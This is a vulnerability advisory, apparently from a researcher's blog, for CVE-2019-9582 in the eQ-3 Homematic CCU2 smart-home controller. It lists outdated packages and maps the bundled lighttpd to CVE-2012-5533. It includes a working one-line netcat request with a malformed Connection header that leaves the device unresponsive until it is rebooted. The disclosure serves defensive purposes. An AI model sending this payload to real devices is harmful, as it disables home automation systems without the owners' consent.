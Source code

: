 ```yaml
---
layout: post
title:  "CVE-2019-9582 eQ-3 Homematic CCU2 outdated base software packages allows Denial of Service"
date:   2019-07-24 00:20:00 MEST
author: 'psytester'
---
```


# Overview

- CVE: CVE-2019-9582
- Author: psytester
- Title: eQ-3 Homematic CCU2 outdated base software packages allows Denial of Service
- Vulnerability Type: CWE-400 Uncontrolled Resource Consumption
-	CVSSv3 Base Score: 7.5
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
- Publishing Date: 24.07.2019
- Updated: --
- Vendor: eQ-3 AG	
- Product: Homematic CCU2
- Vendor contacted: 29.01.2019
- Vendor confirmation: 27.04.2019
- Vendor patch: was promised, but still not fixed!
- Vendor Reference: n.a.
- Affected Firmware version: 2.35.16, 2.41.5, 2.41.8, 2.41.9, 2.45.6, 2.45.7, 2.47.10, 2.47.12, 2.47.15 tested


# Background

From [vendor's website](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

Past [eQ-3 press release](https://www.eq-3.de/aktuelles/newsreader/eq-3-schliesst-sicherheitsluecken-in-der-ccu.html) about taking security updates seriously (in German only):<br>
[...]<br>
eQ-3 ist es wichtig, dass auch solche Lücken geschlossen werden, die für die meisten Installationen keine Rolle spielen.<br> 
[...]<br>
Obwohl nur Nutzer betroffen sind, die gegen Sicherheitshinweise von eQ-3 verstoßen oder seit mehreren Jahren keine Sicherheitsupdates installiert haben, gibt eQ-3 solchen Fällen hohe Priorität und behebt entsprechende Sicherheitslücken schnellstmöglich nach Bekanntwerden in neuen Software-Versionen und Hotfixes.<br>
[...]


# Issue Description

The analysis of the underlying operating system of the CCU2 revealed that the BusyBox version 1.20.2 from 2012 with a Buildroot 2012.08 is installed as embedded Linux and that other outdated software packages are also used.

Just to name a few:
```
Buildroot 2012.08
BusyBox: v1.20.2
OpenSSH: 6.0p1
wget: GNU Wget 1.13.4
lighttpd: 1.4.31
Up to CCU2 Firmware < 2.47.10: Java(TM) SE Embedded Runtime Environment (build 1.8.0_121-b13, profile compact3, headless)
Since CCU2 Firmware >= 2.47.10: Java(TM) SE Embedded Runtime Environment (build 1.8.0_201-b09, profile compact3, headless)
Tcl Tk: 8.2.3
....
```

After a search for already known CVE entries, the lighttpd process proved to be susceptible because of [CVE-2012-5533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-5533=CVE-2012-5533).<br>

This vulnerability can be exploited by unauthenticated attackers with access to the web interface:
~~~shell
echo -ne "GET / HTTP/1.1\r\nHost: 1.2.3.4\r\nConnection: TC,,Keep-Alive\r\n\r\n" | nc 1.2.3.4 80
~~~
After that the lighttpd is permanently in 99% CPU load and the CCU2 does not react anymore with its ReGa core process because the resources are used up:
```
PID  PPID USER     STAT   VSZ %VSZ %CPU COMMAND
  321     1 root     R     5548   2%  99% /usr/sbin/lighttpd -f /etc/lighttpd/lighttpd.conf
```
Just a restart of lighttpd process seems to be not enough to fix the overload condition, a reboot is required.

There might be much more vulnerabilities, as written in my German [blog post](https://psytester.github.io/embedded_Linux_Busybox_Buildroot/) about outdated embedded Linux Busybox/Buildroot installations.

# CVE

[CVE-2019-9582](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9582)

# CVSSv3 Base Score

CVSSv3 Base Score: 7.5

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H

# Credit
All researchers.<br>
[cvedetails](https://www.cvedetails.com/) for scanning and preparing all CVEs, separated by vendor and product.<br>
me, but I simply scanned known CVEs to use them.

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>


# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
